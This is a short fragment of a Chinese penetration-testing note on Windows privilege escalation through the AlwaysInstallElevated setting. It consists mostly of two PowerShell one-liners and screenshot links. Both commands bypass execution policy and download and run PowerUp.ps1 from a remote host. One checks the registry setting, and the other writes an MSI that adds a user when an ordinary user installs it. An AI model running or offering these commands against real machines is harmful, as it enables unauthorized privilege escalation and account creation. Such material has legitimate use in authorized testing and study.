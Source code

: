 	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/powertools/PowerUp/PowerUp.ps1');Get-RegAlwaysInstallElevated"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/157.png)

	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/powertools/PowerUp/PowerUp.ps1'); Write-UserAddMSI"
	普通用户执行安装
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/158.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/159.png)
